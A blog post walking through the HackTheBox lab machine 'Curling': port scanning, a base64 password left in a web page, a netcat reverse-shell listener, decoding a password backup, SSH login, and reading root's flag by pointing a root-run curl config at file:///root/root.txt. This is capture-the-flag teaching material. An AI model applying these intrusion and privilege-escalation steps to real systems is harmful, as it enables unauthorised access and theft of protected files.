 ```yaml
---
layout: single
classes: wide
title:  "Walkthrough - Curling"
date: 2019-03-31
categories:
    - "hackthebox"
    - walkthrough
tags:
    - machines
    - easy
    - linux
---
```


![banner]({{ site.url }}{{ site.baseurl }}/assets/images/HTB_images/machines/curling/banner.JPG)

Before following this walkthrough, I highly recommend trying to get the flag yourself! Just like you will hear from everyone else, try harder! (if you cannot find it)

First up, we'll scan the box using basic nmap scripts and then go from there (Enumerate!).

```bash
root@noone:/home/pswapnil/Curling# nmap -v -sC -sV -p- -oA nmap 10.10.10.150
# Nmap 7.70 scan initiated Sat Feb  2 22:09:43 2019 as: nmap -v -sC -sV -p- -oA nmap 10.10.10.150
Nmap scan report for 10.10.10.150
Host is up (0.26s latency).
Not shown: 65521 closed ports
PORT      STATE    SERVICE    VERSION
22/tcp    open     ssh        OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 8a:d1:69:b4:90:20:3e:a7:b6:54:01:eb:68:30:3a:ca (RSA)
|   256 9f:0b:c2:b2:0b:ad:8f:a1:4e:0b:f6:33:79:ef:fb:43 (ECDSA)
|_  256 c1:2a:35:44:30:0c:5b:56:6a:3f:a5:cc:64:66:d9:a9 (ED25519)
80/tcp    open     http       Apache httpd 2.4.29 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 1194D7D32448E1F90741A97B42AF91FA
|_http-generator: Joomla! - Open Source Content Management
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Home
9001/tcp  filtered tor-orport
9910/tcp  filtered unknown
10693/tcp filtered unknown
12032/tcp filtered unknown
13052/tcp filtered unknown
14121/tcp filtered unknown
33922/tcp filtered unknown
37841/tcp filtered unknown
39026/tcp filtered unknown
52288/tcp filtered unknown
61124/tcp filtered unknown
62918/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Feb  2 22:55:54 2019 -- 1 IP address (1 host up) scanned in 2770.59 seconds
```

Just two ports open, port 22 for SSH and port 80 for HTTP.
Let's start with HTTP. From the nmap scan we can see that it is a `Joomla` CMS. We get this after visiting the page.

![home]({{ site.url }}{{ site.baseurl }}/assets/images/HTB_images/machines/curling/home.png)

Looks like the front page visible to the public. I saw a few posts written by `Super User` and `Floris`. These could be usernames.
Looking at the source, I found a comment.

![secret]({{ site.url }}{{ site.baseurl }}/assets/images/HTB_images/machines/curling/secret.png)

Probably a file in the root directory? Let's check it out.

![pass]({{ site.url }}{{ site.baseurl }}/assets/images/HTB_images/machines/curling/pass.png)

Looks like base64. Let's try to decode it.

```bash
root@noone:/home/pswapnil/Retired/Curling# cat secret.txt | base64 -d
Curling2018!
```

Well, probably a password? Let's navigate to the `administrator` page. A little Google-Fu showed me where could people manage the CMS.

![admin]({{ site.url }}{{ site.baseurl }}/assets/images/HTB_images/machines/curling/admin.png)


```bash
root@noone:/home/pswapnil/Retired/Curling# nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.16.39] from (UNKNOWN) [10.10.10.150] 53762
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ cd /home
floris
$ cd floris
$ ls
admin-area
password_backup
user.txt
$ cat password_backup
00000000: 425a 6839 3141 5926 5359 819b bb48 0000  BZh91AY&SY...H..
00000010: 17ff fffc 41cf 05f9 5029 6176 61cc 3a34  ....A...P)ava.:4
00000020: 4edc cccc 6e11 5400 23ab 4025 f802 1960  N...n.T.#.@%...`
00000030: 2018 0ca0 0092 1c7a 8340 0000 0000 0000   ......z.@......
00000040: 0680 6988 3468 6469 89a6 d439 ea68 c800  ..i.4hdi...9.h..
00000050: 000f 51a0 0064 681a 069e a190 0000 0034  ..Q..dh........4
00000060: 6900 0781 3501 6e18 c2d7 8c98 874a 13a0  i...5.n......J..
00000070: 0868 ae19 c02a b0c1 7d79 2ec2 3c7e 9d78  .h...*..}y..<~.x
00000080: f53e 0809 f073 5654 c27a 4886 dfa2 e931  .>...sVT.zH....1
00000090: c856 921b 1221 3385 6046 a2dd c173 0d22  .V...!3.`F...s."
000000a0: b996 6ed4 0cdb 8737 6a3a 58ea 6411 5290  ..n....7j:X.d.R.
000000b0: ad6b b12f 0813 8120 8205 a5f5 2970 c503  .k./... ....)p..
000000c0: 37db ab3b e000 ef85 f439 a414 8850 1843  7..;.....9...P.C
000000d0: 8259 be50 0986 1e48 42d5 13ea 1c2a 098c  .Y.P...HB....*..
000000e0: 8a47 ab1d 20a7 5540 72ff 1772 4538 5090  .G.. .U@r..rE8P.
000000f0: 819b bb48                                ...H
```

I created a base64 output of the hexdump and used CyberChef to try and decode it.


It gave me a password `5d<wdCbdZu)|hChXll`. Let's use this password to login as `floris` using SSH.

```bash
root@noone:~/Curling# ssh floris@10.10.10.150
The authenticity of host '10.10.10.150 (10.10.10.150)' can't be established.
ECDSA key fingerprint is SHA256:o1Cqn+GlxiPRiKhany4ZMStLp3t9ePE9GjscsUsEjWM.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.10.150' (ECDSA) to the list of known hosts.
floris@10.10.10.150's password:
Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-22-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Apr  7 21:24:05 UTC 2019

  System load:  0.01              Processes:            176
  Usage of /:   46.2% of 9.78GB   Users logged in:      1
  Memory usage: 21%               IP address for ens33: 10.10.10.150
  Swap usage:   0%


0 packages can be updated.
0 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sun Apr  7 21:12:38 2019 from 10.10.13.89
floris@curling:~$ ls
admin-area  password_backup  user.txt
floris@curling:~$ cat user.txt
6******************************b
```

````bash
floris@curling:~/admin-area$ ls -la
total 28
drwxr-x--- 2 root   floris  4096 May 22  2018 .
drwxr-xr-x 6 floris floris  4096 Apr  7 21:13 ..
-rw-rw---- 1 root   floris    25 Apr  7 21:27 input
-rw-rw---- 1 root   floris 14236 Apr  7 21:27 report
floris@curling:~/admin-area$ cat input
url = "http://127.0.0.1"
floris@curling:~/admin-area$
<!DOCTYPE html>
<html lang="en-gb" dir="ltr">
<head>
        <meta name="viewport" content="width=device-width, initial-scale=1.0" />
        <meta charset="utf-8" />
        <base href="http://127.0.0.1/" />
        <meta name="description" content="best curling site on the planet!" />
        <meta name="generator" content="Joomla! - Open Source Content Management" />
        <title>Home</title>
```snip```
<p class="pull-right">
        <a href="#top" id="back-top">
                Back to Top                             </a>
</p>
<p>
        &copy; 2019 Cewl Curling site!                  </p>
</div>
</footer>

</body>
<!-- secret.txt -->
</html>
````

```bash
floris@curling:~/admin-area$ echo 'url = "file:///root/root.txt"' > input
floris@curling:~/admin-area$ cat report
8******************************a
```
